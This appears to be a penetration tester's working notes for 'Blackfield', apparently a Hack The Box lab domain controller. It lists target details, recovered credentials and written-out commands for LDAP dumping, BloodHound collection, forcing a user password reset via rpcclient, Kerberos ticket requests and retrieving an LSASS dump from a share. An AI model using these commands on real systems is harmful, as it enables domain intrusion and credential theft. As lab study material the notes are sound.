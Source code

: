 # Blackfield Notes

## Data 

IP: 10.129.229.17
OS:  DC01 Windows 10.0 Build 17763 x64 
Arch:
Hostname: DC01
DNS: BLACKFIELD.local
Domain: BLACKFIELD.local
Domain SID: S-1-5-21-4194615774-2175524697-3563712290
Machine Purpose: Domain Controller 
Services: 53 dns ,88 kerberos ,135 rpc,389,445,593,3268,5985, smb 445 (signing:True) (SMBv1:False), 
Service Languages:
Users: dc01, audit2020,support,svc_backup,lydericlefebvre and lots of generated
Email and Username Formatting:
Credentials:
```
support : #00^BlackKnight
audit2020 : ComplexP4ssw0rd!

```


#### Mindmap-per Service

- OS detect, run generate noting for nmap - check nmap

- 53
	- no domain transfer
	- `for ns in $(cat /usr/share/seclists/Discovery/DNS/$list.txt); do host $ns.$domain.$tld; done`
	- amass - found nothing..

- 88
- 135
	- NullAuth but not very good
	- CHECK support's access
- 389
- 445
	- Guest get read for `IPC$` and `profile$`
	- forensics share - probably audit2020
	- profile seems like a rabbithole of profiles
	- support has NETLOGON and SYSVOL
	- support spider plus
	- got sysvol share - policy 
- 593
- 3268
- 5985
	- 
-
-
```
ldapsearch -x -H ldap://10.129.229.17 -D 'support@BLACKFIELD.local' -w '#00^BlackKnight' -b "DC=BLACKFIELD,DC=local" | tee -a support-DUMP-entire-domain.ldapsearch

python3 bloodhound.py --dns-tcp -c all -d BLACKFIELD.local -dc DC01.BLACKFIELD.local -ns 10.129.229.17 -u support -p '#00^BlackKnight'

```

- support forcepassword audit2020, but it might acommplish much
- svc_backup is the only member of remote mamagement
-
-
-
-
-


#### Todo List

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse
```
rpcclient -U support 10.10.10.192
> setuserinfo2 audit2020 23 'ComplexP4ssw0rd!'
```

- rescan tcp - done
- password spray - done
- profile seems like a rabbithole of profiles -check potentially



```
impacket-getTGT -dc-ip 10.129.229.17 'blackfield.local/audit2020'


smbget # use ccache file to auth in and get lsass.zip
```